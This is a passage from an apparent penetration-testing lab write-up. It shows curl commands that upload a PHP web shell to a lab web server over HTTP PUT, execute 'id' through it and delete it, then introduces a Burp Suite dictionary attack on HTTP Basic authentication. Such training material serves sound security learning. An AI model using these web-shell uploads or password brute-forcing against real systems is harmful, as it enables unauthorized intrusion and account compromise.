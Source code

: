 `curl -X PUT http://demo.ine.local/uploads/ --upload-file ./shell.php`:
```html
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>
```

`curl -X GET http://demo.ine.local/uploads/`:
```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
  <title>Index of /uploads</title>
 </head>
 <body>
<h1>Index of /uploads</h1>
  <table>
   <tr><th valign="top"><img src="/icons/blank.gif" alt="[ICO]"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>
   <tr><th colspan="5"><hr></th></tr>
<tr><td valign="top"><img src="/icons/back.gif" alt="[PARENTDIR]"></td><td><a href="/">Parent Directory</a></td><td>&nbsp;</td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"><img src="/icons/unknown.gif" alt="[   ]"></td><td><a href="shell.php">shell.php</a></td><td align="right">2024-11-27 12:25  </td><td align="right">328 </td><td>&nbsp;</td></tr> 📌
   <tr><th colspan="5"><hr></th></tr>
</table>
</body></html>
```

`curl http://demo.ine.local/uploads/shell.php?cmd=id`:
```html
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre> 🚩
```

`curl -X DELETE http://demo.ine.local/uploads/shell.php`

### Attacking HTTP Basic Authentication

#### Lab Environment

**Attacking HTTP Basic Authentication with Burp Suite**

Web Application Pentesting Tools can prove to be very helpful while performing penetration testing. 

In this lab exercise, we will take a look at how to use [Burp Suite](https://portswigger.net/support/burp-suite-tools) to perform a dictionary attack on HTTP Basic authentication protected directories.

**Objective**: Perform Dictionary Attack on the password-protected directory `/basic`.

Instructions: 
- This lab is dedicated to you! No other users are on this network :)
- Once you start the lab, you will have access to a Kali GUI instance.
- Your Kali instance has an interface with IP address `192.X.Y.2`. Run `ip addr` to know the values of X and Y.
- Do not attack the gateway located at IP address `192.X.Y.1`.
- HTTP Authentication username is "admin".
- For dictionary attack, use the password wordlist: `/root/Desktop/wordlists/100-common-passwords.txt`.
